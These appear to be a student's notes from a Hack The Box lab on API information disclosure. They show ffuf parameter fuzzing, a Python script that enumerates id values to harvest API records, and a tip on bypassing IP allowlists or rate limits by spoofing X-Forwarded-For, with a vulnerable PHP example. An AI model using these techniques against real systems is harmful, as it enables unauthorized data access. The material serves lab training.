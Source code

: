 # Information Disclosure (with a twist of SQLi)
## Information Disclosure through Fuzzing
```
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```
It looks like id is a valid parameter. Let us check the response when specifying id as a parameter and a test value.
Find below a Python script that could automate retrieving all information that the API returns (save it as brute_api.py).
```
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()

```
The above script can be run, as follows.
```
python3 brute_api.py http://TARGETIP:3003
```
TIP: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.
```
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```
The issue here is that the code compares the HTTP_X_FORWARDED_FOR header to the possible whitelist values, and if the HTTP_X_FORWARDED_FOR is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the X-Forwarded-For header and the value to one of the IPs from the array.
